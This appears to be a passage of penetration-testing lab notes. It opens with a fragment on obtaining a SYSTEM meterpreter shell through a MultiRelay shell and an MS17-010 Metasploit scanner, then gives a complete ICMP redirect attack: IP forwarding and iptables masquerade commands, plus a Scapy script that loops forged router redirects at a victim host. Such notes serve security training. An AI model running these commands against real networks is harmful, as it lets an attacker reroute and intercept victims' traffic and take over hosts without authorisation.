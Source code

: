 We then copy and paste our PowerShell one-liner to the compromised host via the MultiRelay shell, and hit enter.
We obtain a meterpreter shell from the first compromised target as SYSTEM.
`use auxiliary/scanner/smb/smb_ms17_010` - Important

***
***

## ICMP redirect attack

`echo 1 > /proc/sys/net/ipv4/ip_forward`
`iptables -t nat -A POSTROUTING -s 10.100.13.0/255.255.255.0 -o tap0 -j MASQUERADE`

`scapy`
>>> `originalRouterIP='10.100.13.1'`
>>> `attackerIP='<Your VPN IP Address>'`
>>> `victimIP='10.100.13.126'`
>>> `serverIP='10.23.56.100'`
>>> `ip=IP()`
>>> `ip.src=originalRouterIP`
>>> `ip.dst=victimIP`
>>> `icmpRedirect=ICMP()`
>>> `icmpRedirect.type=5`
>>> `icmpRedirect.code=1`
>>> `icmpRedirect.gw=attackerIP`
>>> `redirPayloadIP=IP()`
>>> `redirPayloadIP.src=victimIP`
>>> `redirPayloadIP.dst=serverIP`
>>> `fakeOriginalTCPSYN=TCP()`
>>> `fakeOriginalTCPSYN.flags="S"`
>>> `fakeOriginalTCPSYN.dport=80`
>>> `fakeOriginalTCPSYN.seq=444444444`
>>> `fakeOriginalTCPSYN.sport=55555`

>>> `while True:`
...  `send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)`
... `Press <enter>`

***
***